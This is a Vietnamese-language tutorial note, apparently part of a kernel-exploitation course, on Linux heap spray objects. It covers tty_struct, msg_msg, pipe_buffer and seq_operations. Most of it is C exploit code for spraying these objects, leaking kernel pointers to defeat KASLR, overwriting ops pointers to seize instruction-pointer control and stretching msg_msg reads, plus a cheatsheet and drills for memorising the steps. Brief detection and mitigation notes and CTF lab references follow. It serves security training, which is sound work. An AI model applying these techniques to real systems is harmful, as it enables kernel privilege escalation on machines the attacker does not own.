

> **Prerequisites**: [[02-kernel-memory-management|02. Kernel Memory & SLUB]] · [[06-heap-uaf-double-free|06. Heap UAF]] · [[09-exploit-primitives|09. Exploit Primitives]]
> **Objectives**:
> - Nắm vững bốn spray objects phổ biến nhất và ưu/nhược điểm từng loại
> - Biết cách tạo, kiểm soát, và xóa từng object loại
> - Chọn đúng spray object cho từng vulnerability class và kernel version
> - Thực hiện heap spray đáng tin cậy với CPU pinning
>
---

## Điều kiện khai thác

> [!note] Spray objects phụ thuộc vào
> - **Object size** của vulnerable object → xác định kmalloc cache
> - **GFP flags** của vulnerable allocation → xác định cache variant
> - **Kernel version** → CONFIG_RANDOM_KMALLOC_CACHES và CONFIG_SLAB_BUCKETS
> - **Available syscalls** → một số spray objects bị restrict trong containers
>
---

## Cơ chế tấn công

![[img-10-heap-spray-objects.svg]]
*Hình 10: Memory layout của bốn spray objects chính — fields có thể exploit được highlight đỏ*

### Spray Object 1 — tty_struct

**Thông tin cơ bản:**

| Thuộc tính | Giá trị |
|-----------|---------|
| Kích thước | ~1152 bytes (kernel version dependent) |
| Cache | Dedicated `tty_struct` cache |
| GFP flags | `GFP_KERNEL` |
| Tạo bằng | `open("/dev/ptmx", O_RDWR)` hoặc `O_RDONLY` |
| Xóa bằng | `close(fd)` |

**Tại sao mạnh**: `tty_struct` có `ops` pointer (vtable) tại offset `0x18`. Overwrite `ops` → RIP control khi `ioctl(ptmx_fd, ...)` được gọi.

**Verify spray hit:**

```c
// tty_struct bắt đầu bằng magic 0x5401
char buf[0x400];
uaf_read(buf, sizeof(buf));
if (*(unsigned int *)buf == 0x5401) {
    printf("[+] tty_struct spray hit!\n");
}
```

**Lấy KASLR leak qua ops pointer:**

```c
// ops là pointer vào kernel text → tính kernel_base
unsigned long ops_ptr = *(unsigned long *)(buf + 0x18);
// tìm offset của tty_ops trong vmlinux:
// nm vmlinux | grep " ptm_unix98_ops"
unsigned long kernel_base = ops_ptr - PTMX_OPS_OFFSET;
```

**Fake ops table cho RIP control:**

```c
unsigned long fake_ops[30] = {0};
// offset 12 = ioctl handler trong tty_operations
fake_ops[12] = kernel_base + ROP_GADGET_OFFSET;

// Ghi fake_ops vào tty_struct qua dangling pointer
memcpy(buf + 0x18, &fake_ops_addr, 8);  // ghi địa chỉ của fake_ops
uaf_write(buf, sizeof(buf));

// Trigger: ioctl trên một trong spray fds → RIP redirect
for (int i = 0; i < SPRAY_COUNT; i++) {
    ioctl(spray_fds[i], 0, 0);
}
```

### Spray Object 2 — msg_msg

**Thông tin cơ bản:**

| Thuộc tính | Giá trị |
|-----------|---------|
| Header size | 48 bytes (0x30) |
| Body size | Controlled bởi attacker (0 – ~8KB) |
| Total size | 48 + body → vào kmalloc cache tương ứng |
| GFP flags | `GFP_KERNEL` |
| Tạo bằng | `msgsnd(qid, &msg, body_size, 0)` |
| Xóa (nhận) | `msgrcv(qid, &msg, body_size, 0, IPC_NOWAIT)` |

**Tại sao mạnh**: `m_list.next` và `m_list.prev` (offset 0x00, 0x08) là kernel heap pointers → OOB read 8 bytes → KASLR leak. `m_ts` (offset 0x18) là size field → OOB write để tăng size → extended read.

**Tạo msg_msg spray:**

```c
#include <sys/msg.h>

// Tạo queue
int qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);

// Spray 50 msg_msg với body size khớp với target cache
struct {
    long mtype;
    char mtext[TARGET_SIZE - 0x30];  // body = target - header
} msg;
msg.mtype = 1;
memset(msg.mtext, 0x41, sizeof(msg.mtext));

for (int i = 0; i < 50; i++) {
    int q = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
    msgsnd(q, &msg, sizeof(msg.mtext), 0);
    spray_qids[i] = q;
}
```

**Leak từ m_list.next:**

```c
// Sau OOB read, đọc bytes ngay sau vulnerable buffer
unsigned long next_ptr = *(unsigned long *)(oob_buf + VULN_BUF_SIZE);
// next_ptr = msg_msg.m_list.next → địa chỉ kernel heap
printf("[+] Kernel heap addr: 0x%lx\n", next_ptr);
```

**Overwrite m_ts để tăng read size:**

```c
// OOB write vào msg_msg header
char payload[VULN_SIZE + 0x30];
memset(payload, 'A', VULN_SIZE);  // fill vulnbuf
// Tại VULN_SIZE + 0x18 = m_ts field
*(size_t *)(payload + VULN_SIZE + 0x18) = EXTENDED_SIZE;
vuln_write(payload, sizeof(payload));

// Giờ msgrcv đọc EXTENDED_SIZE bytes thay vì original size
char big_read[EXTENDED_SIZE];
msgrcv(victim_qid, big_read, EXTENDED_SIZE, 0, IPC_NOWAIT);
// Đọc được nhiều kernel data hơn → thêm leaks
```

### Spray Object 3 — pipe_buffer

**Thông tin cơ bản:**

| Thuộc tính | Giá trị |
|-----------|---------|
| Kích thước | `16 slots × 40 bytes = 640 bytes` → kmalloc-1024 |
| GFP flags | `GFP_KERNEL` |
| Tạo bằng | `pipe(fds); write(fds[1], data, len)` |
| Xóa bằng | `close(fds[0]); close(fds[1])` |

**Tại sao mạnh**: `page*` (offset 0x00) trỏ đến physical page. Overwrite `page*` → kernel read/write tại arbitrary physical page. `ops*` (offset 0x28) là vtable → RIP control khi `close(read_end)`.

**Tạo pipe_buffer spray:**

```c
int pipes[SPRAY_COUNT][2];
for (int i = 0; i < SPRAY_COUNT; i++) {
    pipe(pipes[i]);
    // Write 1 byte để allocate pipe_buffer array
    write(pipes[i][1], "A", 1);
}
```

**Overwrite ops để RIP control:**

```c
// Sau khi chiếm slot với pipe_buffer:
// buf + 0x28 = ops pointer
unsigned long *buf_ptr = (unsigned long *)buf;
buf_ptr[5] = fake_pipe_ops_addr;  // offset 0x28 / 8 = 5
uaf_write(buf, sizeof(buf));

// Trigger: close read end → calls ops->release
close(spray_pipes[hit_idx][0]);   // → RIP redirect
```

### Spray Object 4 — seq_operations

**Thông tin cơ bản:**

| Thuộc tính | Giá trị |
|-----------|---------|
| Kích thước | 32 bytes |
| Cache | `kmalloc-32` |
| GFP flags | `GFP_KERNEL` |
| Tạo bằng | `open("/proc/self/stat", O_RDONLY)` |
| Trigger | `read(stat_fd, buf, 1)` → gọi `start()` |

**Tại sao mạnh**: Rất nhỏ (32 bytes) → target cho OOB vào small objects. Toàn bộ struct là function pointers → overwrite bất kỳ → RIP.

```c
// Spray seq_operations
int stat_fds[100];
for (int i = 0; i < 100; i++) {
    stat_fds[i] = open("/proc/self/stat", O_RDONLY);
}

// Trigger sau khi overwrite:
for (int i = 0; i < 100; i++) {
    read(stat_fds[i], buf, 1);  // → start() được gọi → RIP redirect
}
```

### So sánh và lựa chọn

| Object | Cache | Dùng khi | Mạnh nhất ở |
|--------|-------|----------|------------|
| `tty_struct` | Dedicated | Size ~1152B; cần vtable RIP | RIP via ioctl, KASLR leak |
| `msg_msg` | kmalloc-N | Size flexible; cần leak hoặc extended read | KASLR leak, arbitrary read ext |
| `pipe_buffer` | kmalloc-1024 | Size 640B; cần page-level write | Physical page manipulation |
| `seq_operations` | kmalloc-32 | Size 32B; OOB vào small objects | RIP via read(stat_fd) |
| `user_key_payload` | kmalloc-N | Cần controlled data, flexible size | Data spray, replace freed content |

---

## Quy trình tấn công

**Bước 1 — Xác định target cache**

```c
// Biết size của vulnerable object, tìm cache:
// 32 → kmalloc-32  → seq_operations
// 96 → kmalloc-96  → msg_msg(48B header + 48B body)
// 1024 → kmalloc-1024 → pipe_buffer
// 1152 → dedicated tty_struct cache (gần đây được tách riêng)
```

**Bước 2 — CPU pinning trước khi spray**

```c
cpu_set_t cpu;
CPU_ZERO(&cpu);
CPU_SET(0, &cpu);
sched_setaffinity(0, sizeof(cpu_set_t), &cpu);
// Tất cả alloc/free sau đây đều trên CPU 0
```

**Bước 3 — Spray N objects**

```c
// Spray 100–1000 objects tùy cache size và slab capacity
// Slab page = 4KB; kmalloc-1024 → 4 objects/slab
// Cần ít nhất vài chục để tỉ lệ cao
const int SPRAY_N = 200;
for (int i = 0; i < SPRAY_N; i++) {
    spray_fds[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
}
```

**Bước 4 — Verify hit và exploit**

```c
char buf[VULN_SIZE];
uaf_read(buf, sizeof(buf));

// Verify theo object type
if (*(uint32_t *)buf == 0x5401) {
    printf("[+] tty_struct hit!\n");
    // Leak ops pointer
    unsigned long ops = *(unsigned long *)(buf + 0x18);
    // Tiếp tục exploit...
}
```

---

## Cây quyết định



---

## Command Cheatsheet

**tty_struct**

```c
// Tạo
int fd = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
// Verify
if (*(uint32_t *)buf == 0x5401) { /* hit */ }
// Leak
unsigned long ops = *(unsigned long *)(buf + 0x18);
// Trigger
ioctl(fd, 0, 0);
```

**msg_msg**

```c
// Tạo
int qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
struct { long t; char d[SIZE - 0x30]; } m = {1};
msgsnd(qid, &m, sizeof(m.d), 0);
// Nhận (xóa)
msgrcv(qid, &m, sizeof(m.d), 0, IPC_NOWAIT | MSG_NOERROR);
// Leak: next_ptr = *(ulong*)(oob_buf + vuln_size)
```

**pipe_buffer**

```c
// Tạo
int pfd[2]; pipe(pfd); write(pfd[1], "A", 1);
// Xóa (trigger ops)
close(pfd[0]);
```

**seq_operations**

```c
// Tạo
int sfd = open("/proc/self/stat", O_RDONLY);
// Trigger
read(sfd, buf, 1);
// Cleanup
close(sfd);
```

---

## Daily Drill

**Thời gian**: 20 phút/ngày trong 10 ngày.

**Drill 1 — Spray selection từ size**
Mục tiêu: Size → spray object → syscall để tạo, trong 30 giây.

```c
32B   → seq_operations → open("/proc/self/stat")
1024B → pipe_buffer    → pipe() + write()
1152B → tty_struct     → open("/dev/ptmx")
variB → msg_msg        → msgsnd(qid, &msg, body_size)
```

Luyện cho đến khi: mapping size → object → syscall là phản xạ.

**Drill 2 — Viết spray loop**
Mục tiêu: Spray 100 tty_struct với CPU pinning không nhìn notes.

```c
sched_setaffinity(0, sizeof(cpu), &cpu_mask);
for (int i=0; i<100; i++) spray[i] = open("/dev/ptmx", O_RDONLY|O_NOCTTY);
```

Luyện cho đến khi: spray loop + verify magic gõ ra tự nhiên.

**Drill 3 — Leak parsing**
Mục tiêu: Từ spray buffer, extract kernel address và tính base.

Luyện cho đến khi: `ops_ptr → kernel_base` calculation thuần thục.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Anomaly**: Một process mở hàng trăm `/dev/ptmx` hoặc tạo hàng trăm message queues trong vài giây
> - Thường không xảy ra trong production → alert ngay
>
> **Audit log**: `open("/dev/ptmx")` rate anomaly
>
> [!note] Mitigation
> - `CONFIG_RANDOM_KMALLOC_CACHES=y` (kernel >= 6.1) → random cache cho kmalloc
> - `CONFIG_SLAB_BUCKETS=y` (Ubuntu 22.04+) → tách riêng user-data caches
> - seccomp profile trong containers → block `msgget`, `open("/dev/ptmx")` nếu không cần
>
---

## Lab Thực hành

| Platform | Challenge | Tại sao phù hợp |
|----------|-----------|----------------|
| pawnyable.cafe | **Holstein v3** | tty_struct spray + UAF |
| pawnyable.cafe | **Fleckvieh** | msg_msg spray + OOB |
| CTF | **kUlele** (crewCTF 2024) | Cross-cache với GFP_KERNEL objects |
| HTB | **Hospital** | Real kernel, tty_struct path |

---

## Field Manual Entry

> [!abstract] Heap Spray Objects — Quick Reference
> **tty_struct**: `open("/dev/ptmx")` × N → verify `*(u32*)buf == 0x5401` → leak `*(ulong*)(buf+0x18)` (ops ptr)
> **msg_msg**: `msgsnd(qid, &m, body_size)` → leak `m_list.next` via OOB → overwrite `m_ts` cho extended read
> **pipe_buffer**: `pipe(fds); write(fds[1],"A",1)` → overwrite `ops*` (offset 0x28) → trigger via `close(fds[0])`
> **seq_operations**: `open("/proc/self/stat")` → overwrite all 4 fn ptrs → trigger via `read(fd, buf, 1)`
> **CPU pin**: `sched_setaffinity(0, sizeof(cpu), &cpu)` trước khi spray
> **Ref**: [[10-heap-spray-objects|10. Heap Spray Objects]]
>